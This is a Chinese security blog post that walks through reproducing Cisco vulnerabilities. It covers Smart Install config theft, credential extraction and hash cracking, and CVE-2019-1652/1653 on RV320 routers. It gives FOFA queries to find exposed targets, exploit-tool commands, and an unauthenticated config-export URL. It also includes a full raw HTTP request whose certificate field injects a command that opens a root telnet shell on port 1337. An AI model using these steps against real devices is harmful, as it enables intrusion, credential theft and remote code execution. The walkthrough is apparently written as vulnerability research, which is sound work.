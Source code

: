 ```yaml
---

title: "cisco设备信息泄漏漏洞案例"
date: 2022-10-21T12:00:00+08:00
draft: false
author: "r0fus0d & k1t9meo"
categories: ["test2"]

---
```


近期遇到了几个cisco配置信息泄漏的案例，借此机会复现下cisco常见的几个漏洞。

{{% admonition info "info" %}}
本文首发 合天网安 https://mp.weixin.qq.com/s/efrcXS_uiXp0LzUaaEJ-MA
{{% /admonition %}}

<!--more-->

---

## cisco SMI 配置泄漏

Cisco SMI 是一种即插即用功能，可为 Cisco 交换机提供零接触部署并在 TCP 端口 4786 上进行通信。如果发现开放4786端口的cisco设备，那可以深入测试一下。

fofa 语句 *protocol="smi"*

![Untitled](../../img/cisco-case/Untitled.png)

影响目标还挺多的

```
git clone https://github.com/ChristianPapathanasiou/CiscoSmartInstallExploit
cd CiscoSmartInstallExploit
pip2 install tftpy
python2 cisco.py [ip]
```

注意用python2运行,运行成功会下载目标的运行配置

![Untitled](../../img/cisco-case/Untitled%201.png)

配置文件中存有设备用户密码，ACL配置，ftp配置账号密码等敏感信息

如果想进一步分析配置文件可以下载 ccat 工具进行自动化分析

[https://github.com/frostbits-security/ccat](https://github.com/frostbits-security/ccat)

```
git clone https://github.com/frostbits-security/ccat.git
cd ccat
pip3 install -r requirements.txt
python3 ccat.py configuration_file
```

![Untitled](../../img/cisco-case/Untitled%202.png)

我们可以使用 **--dump-creds** 参数dump出账号密码

![Untitled](../../img/cisco-case/Untitled%203.png)

文件名m500的可以用hashcat -m 500的掩码进行爆破,5700同理

![Untitled](../../img/cisco-case/Untitled%204.png)

---

## CVE-2019-1652 && CVE-2019-1653

Cisco RV320 路由器的配置可以在未经身份验证的情况下通过设备的 Web 界面导出。

fofa 语句 app="CISCO-RV320”

对应poc

```
ip:port/cgi-bin/config.exp
```

![Untitled](../../img/cisco-case/Untitled%205.png)

下载的配置文件中有账号和md5的密码,不过md5的格式为 `md5($password.$auth_key)`，其中 auth_key 是一个静态值，可以通过直接访问 / 路径找到。

![Untitled](../../img/cisco-case/Untitled%206.png)

当然在通过 CVE-2019-1653 获得了账号和md5的密码后可以通过替换登录包的hash进行登录,无需解密

![Untitled](../../img/cisco-case/Untitled%207.png)

![Untitled](../../img/cisco-case/Untitled%208.png)

后台可以配合 CVE-2019-1652 进行 rce

github上的利用poc由于不支持目标的自签名证书 [https://github.com/0x27/CiscoRV320Dump/blob/master/easy_access.py](https://github.com/0x27/CiscoRV320Dump/blob/master/easy_access.py) 这里就手动发包进行测试

```
POST /certificate_handle2.htm?type=4 HTTP/1.1
Host: x.x.x.x
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.5195.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: mlap=RGVmYXVsdDk6Ojo6Y2lzY28=
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 319

page=self_generator.htm&totalRules=1&OpenVPNRules=30&submitStatus=1&log_ch=1&type=4&Country=A&state=A&locality=A&organization=A&organization_unit=A&email=ab%40example.com&KeySize=512&KeyLength=1024&valid_days=30&SelectSubject_c=1&SelectSubject_s=1&common_name=a%27%24%28telnetd%20-l%20%2Fbin%2Fsh%20-p%201337%29%27b
```

payload执行后会用telnet在本地监听1337口

连接验证

![Untitled](../../img/cisco-case/Untitled%209.png)

---

## 总结

1. cisco设备国内互联网公司和企事业用的不多，近年来都被国产品牌替换了。
2. python的poc经常会遇到一些历史遗留问题，比如tls版本过低，依赖库安装报错不兼容等等问题，建议还是用go写poc，利人利己。
